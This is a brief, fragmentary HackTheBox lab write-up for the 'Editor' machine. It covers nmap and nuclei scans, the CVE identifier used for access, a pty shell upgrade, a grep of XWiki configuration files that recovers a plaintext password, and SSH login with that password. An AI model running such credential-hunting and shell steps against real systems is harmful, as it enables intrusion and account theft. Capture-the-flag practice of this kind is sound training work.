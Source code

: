 # Editor

**Platform:** HackTheBox

## 1. Reconnaissance
**Nmap scan:**
```
nmap -A -T4 10.10.11.80 -oN portscan.txt
```

**Nuclei scan:**
```
nuclei -u http://wiki.editor.htb -o nuclei.txt
```
CVE-2025-24893


python3 -c 'import pty; pty.spawn("/bin/bash")'

ls /home
```
oliver
```

grep -iR "pass" /etc/xwiki/*
theEd1t0rTeam99


ssh -4 oliver@editor.htb
try using a password scaned theEd1t0rTeam99
